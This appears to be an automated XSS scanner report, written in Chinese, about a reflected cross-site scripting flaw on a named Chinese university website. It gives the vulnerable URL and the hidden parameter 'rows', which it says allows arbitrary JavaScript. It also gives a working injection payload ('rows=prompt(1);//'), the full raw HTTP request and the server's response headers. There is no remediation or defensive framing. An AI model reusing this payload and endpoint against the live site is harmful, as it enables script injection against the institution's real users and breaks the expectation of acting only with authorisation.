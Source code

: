 ## https://xxgk.ecust.edu.cn/_web/_plugs/siminteract/web/contentList.jsp?_p=YXM9MTQyJnQ9MzQ3JnA9MSZtPU4m&tn=x&type=2
| Key | Value |
| --- | ----- |
| XSS类型 | Js IdentifierToken |
| 时间 | 2024-11-07 16:59:12 |
| XSS位置 | get_parameter |
| 隐藏参数 | true |
| Key | rows |
| 描述 | 可直接执行任意js命令 |
| Payload | rows=xsyy50 |
| 利用payload | rows=prompt(1);// |

### 请求包
```
GET /_web/_plugs/siminteract/web/contentList.jsp?_p=YXM9MTQyJnQ9MzQ3JnA9MSZtPU4m&a=foc64&c=emnj9&callback=lkco9&cat=cltl9&code=ksf37&csrf_token=u8zt1&dataType=gat54&emailto=xf8z2&enddate=oy5j0&key=ov4w8&lang=kl1e0&none=ntt27&p=b2jq0&page=uitx8&q=khnn9&query=sn5v8&queryId=xo9n9&rows=xsyy50&search=jupq3&tn=x&type=2&year=kuzs1 HTTP/1.1
Host: xxgk.ecust.edu.cn
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip


```

### 返回Header
```
X-Application-Context: application
Strict-Transport-Security: max-age=31536000;includeSubdomains; preload
X-Download-Options: SAMEORIGIN
Referrer-Policy: no-referrer-when-downgrade
Connection: keep-alive
Vary: Accept-Encoding
Content-Security-Policy: default-src * 'unsafe-inline' 'unsafe-eval' data: https:
Content-Type: text/html;charset=UTF-8
Server: nginx
Date: Thu, 07 Nov 2024 17:01:33 GMT
Set-Cookie: JSESSIONID=06A3F62AC5F8A8FDAE01EACE35D14A0F; Path=/; HttpOnly
X-Content-Type-Options: nosniff
X-Permitted-Cross-Domain-Policies: master-only
X-Xss-Protection: 1; mode=block

```
